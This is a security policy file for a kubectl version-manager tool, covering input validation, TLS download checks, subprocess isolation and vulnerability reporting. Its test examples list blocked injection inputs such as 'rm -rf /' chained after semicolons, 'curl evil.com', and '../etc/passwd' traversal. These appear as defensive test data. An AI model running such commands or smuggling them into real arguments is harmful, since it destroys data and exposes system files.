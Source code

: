 # Security Policy

## Overview

kubectl-manager implements comprehensive security measures to protect against common vulnerabilities and ensure safe operation in production environments.

## Security Features

### 🛡️ Input Validation & Sanitization

**Command Injection Prevention**
- All kubectl arguments undergo strict validation before execution
- Dangerous characters (`;`, `&&`, `||`, `|`, backticks, `$`) are blocked
- Command whitelist ensures only legitimate kubectl subcommands are allowed
- Path traversal patterns (`../`, `/etc/`, `/proc/`) are rejected

**Argument Validation**
- Maximum argument length limits prevent buffer overflow attacks
- Version strings must match semantic versioning patterns
- Cluster names are restricted to safe character sets
- All inputs are sanitized before processing

### 🔐 Secure Downloads

**TLS Security**
- TLS 1.2+ minimum version enforced
- Strong cipher suites: ECDHE+AESGCM, ECDHE+CHACHA20, DHE+AESGCM
- Full SSL certificate verification enabled
- Hostname verification enforced
- Weak protocols (SSLv2, SSLv3, TLSv1.0, TLSv1.1) explicitly disabled

**Download Integrity**
- File size validation (kubectl binaries: 1MB - 200MB)
- Binary format verification (ELF, PE, Mach-O magic bytes)
- Secure temporary file handling
- Automatic cleanup on verification failure

### 🏗️ Process Security

**Subprocess Isolation**
- kubectl runs with minimal environment variables
- 5-minute timeout prevents hanging processes
- Working directory restricted to tool directory
- Process environment sanitized (PATH, HOME, USER only)

**Error Handling**
- Secure error messages (no sensitive data exposure)
- Graceful degradation on security failures
- Comprehensive exception handling

## Security Testing

### Automated Security Tests

The project includes comprehensive security tests that verify:

**Command Injection Protection**
```python
# These are all blocked:
["get", "pods", ";", "rm", "-rf", "/"]
["get", "pods", "&&", "curl", "evil.com"]
["../../../etc/passwd"]
["get", "pods", "|", "grep", "secret"]
```

**Input Validation**
```python
# Version validation blocks:
"../etc/passwd"
"1.30.0; rm -rf /"
"../../../../../../etc/passwd"

# Cluster name validation blocks:
"test; rm -rf /"
"../../../etc"
"cluster && curl evil.com"
```

**SSL Security Verification**
- TLS minimum version enforcement
- Certificate verification requirements
- Secure cipher suite configuration

### Manual Security Testing

Security testing is performed in isolated Docker containers to prevent any risk to the host system:

```bash
# All security tests run in containers
docker run --rm -v "$(pwd)":/workspace -w /workspace ubuntu:22.04 bash -c "
apt update -qq && apt install -y python3 python3-requests > /dev/null 2>&1
python3 test_security.py
"
```

## Vulnerability Response

### Reporting Security Issues

If you discover a security vulnerability, please report it responsibly:

1. **DO NOT** create a public GitHub issue
2. Email security reports to: [security@your-domain.com]
3. Include detailed reproduction steps
4. Allow time for investigation and patching

### Security Updates

- Security patches are prioritized and released promptly
- Users are notified via GitHub releases and security advisories
- Breaking changes for security reasons are clearly documented

## Best Practices for Users

### Installation Security
- Always download from official repository
- Verify checksums when available
- Use the automated installer (`install.sh --auto`) for secure setup

### Usage Security
- Run with minimal privileges (avoid sudo unless required for installation)
- Regularly update to latest version
- Monitor for security advisories

### Network Security
- Tool requires HTTPS access to GitHub API and download servers
- Configure corporate proxies appropriately
- Firewall rules should allow HTTPS (443) to:
  - `api.github.com`
  - `dl.k8s.io`

## Security Architecture

### Threat Model

**Protected Against:**
- Command injection attacks
- Path traversal attacks
- Man-in-the-middle attacks during downloads
- Malicious kubectl binaries
- Process hijacking
- Environment variable injection

**Assumptions:**
- Host system has basic security measures
- Python runtime is trustworthy
- User has legitimate access to manage kubectl/clusters
- Network connection to download sources is available

### Security Boundaries

**Trust Boundaries:**
- User input → Validation layer → Processing
- Network downloads → TLS verification → Integrity checks → Local storage
- kubectl execution → Argument validation → Subprocess isolation

**Security Controls:**
- Input validation at all entry points
- Cryptographic verification for downloads
- Process isolation for subprocess execution
- Comprehensive error handling and logging

## Compliance

This tool follows security best practices including:
- OWASP secure coding guidelines
- Python security recommendations
- Kubernetes security best practices
- Supply chain security principles

## License

This security policy is part of kubectl-manager and is licensed under the MIT License.

---

**Last Updated:** 2025-01-XX  
**Security Version:** 1.0.0